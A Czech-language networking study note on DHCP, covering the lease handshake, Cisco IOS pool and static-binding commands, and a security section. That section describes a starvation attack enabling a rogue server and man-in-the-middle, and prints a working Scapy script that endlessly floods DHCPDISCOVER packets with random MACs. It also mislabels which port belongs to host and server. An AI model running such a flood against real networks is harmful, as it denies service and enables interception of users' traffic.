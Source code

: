 # DHCP - Dynamic Host Configuration Protocol

### Topika: Úvod, nastavení v IOS, security

## Úvod

port 67 - host

port 68 - server

*DHCP* je protokol nacházející se na Síťové vrstvě. Zajišťuje nám aby nové zařízení v síti mohli fungovat. Jelikož jim automaticky přiděluje potřebné věci. Jeho předchůdci jsou Reverse ARP a Bootstrap protokol. 

#### Statické DHCP
- DHCP tabulka si uchovává přiřazenou IP adresu k MAC adrese, pomocí toho tak může mít zařízení pokaždé stejnou IP ikdyž se odpojí ze sítě. Využívá se pro servery. 

##### DHCP tabulka 
- Zde si server uchovává všechny přidělené adresy.

- Ukládá se zde:
           
           - Na jakém interface je host připojen.
           
           - MAC adresa hosta.
           
           - IP adresa hosta.
           
           - Datum expirace adresy.
           
           - Jméno hosta.

#### Přiřazení adresy
- probíhá 4 way handshakem.

> Host pošle DHCPDISCOVER na portu 68 na broadcast aby našel DHCP server
> 
> Server odpoví DHCPOFFER na portu 67 a nabídne adresu, hosta najde pomocí MAC adresy
> 
> Host pošle DHCPREQUEST na portu 68, žádá o nabídnutou IP adresu
> 
> Server odpoví DHCPACKNOWLEDGE na portu 67, server potvrzuje přiřazení adresy a zapisuje si ho do "poolu"

DHCP Přiřazuje hostům:
- IPv4 adresu
- NTP (pro analýzu)
- Gateway
- DNS server (například Cloudflare - 1.1.1.1 nebo Google - 8.8.8.8)

## Nastavení DHCP na Switchi nabo Routeru s IOS

#### Základní konfigurace DHCP
```
SW(config)#ip dhcp pool NETWORK1                          //vytvoří pool se jménem 
SW(dhcp-config)#network 192.168.190.0 255.255.255.0       //nastaví adresní rozsah
SW(dhcp-config)#default-router 192.168.190.1              //Gateway adresa
SW(dhcp-config)#dns-server 1.1.1.1 8.8.8.8                //adresy DNS serverů (můžeme nastavit až 8 adres)
SW(dhcp-config)#lease 30                                  //pronájem adresy na 30 dní, formátje den hodina minuta (tedy třeba 0 0 10 = 10 minut)
```

#### Konfigurace Statického DHCP
```
SW(dhcp-config)#host 192.168.190.9 255.255.255.0          // adresa pro klienta spolu s maskou
SW(dhcp-config)#client-identifier 0100.1217.59b0.73       // MAC adresa před kterou je typ media, 01 je pro Ethernet a tečka se posouvá
```

#### Užitečné příkazy
```
SWITCH#show ip dhcp bindings                              // seznam přidělených adres
SWITCH#clear ip dhcp bindings                             // vymaže seznam
SWITCH#show ip dhcp conflicts                             // seznam konfliktů
SW#clear ip dhcp conflicts                                // vymaže seznam konfliktů
SW#show ip dhcp pool                                      // informace o poolu
SW#show ip dhcp server statistics                         // statistiky serveru
```

## DHCP security
- Pro síť je špatně nastavené DHCP hrozba.
- Důležitá je zde port security.
- Kontrolovat jaké zařízení se napojují do sítě.

#### Startvation attack
- Útočník zahlcuje tabulku pro volne hosty pomocí scriptu. Poté můžu začít hostovat vlastní DHCP server, jelikož původní bude plný noví hostové budou dostávat adresu od útočníkovo DHCP serveru. Jelikož DHCP přiřazuje i gateway tak útočník zde může dát svoji IP adresu a jednoduše získat Man in the Middle útok.

Python script: 
- pozor jaký interface používáte
```
#!/usr/bin/python3
from scapy.all import *

conf.checkIPaddr = False  #Disable IP address checking

#Building DISCOVER packet
#Making an Ethernet packet
DHCP_DISCOVER = Ether(dst='ff:ff:ff:ff:ff:ff', src=RandMAC(), type=0x0800) \
            / IP(src='0.0.0.0', dst='255.255.255.255') \
            / UDP(dport=67,sport=68) \
            / BOOTP(op=1, chaddr=RandMAC()) \
            / DHCP(options=[('message-type','discover'), ('end')])

#Sending the crafted packet in a loop using the "eth0" interface
sendp(DHCP_DISCOVER, iface='eth0',loop=1,verbose=1 )-
```

Pro hostování DHCP serveru = https://udhcp.busybox.net/
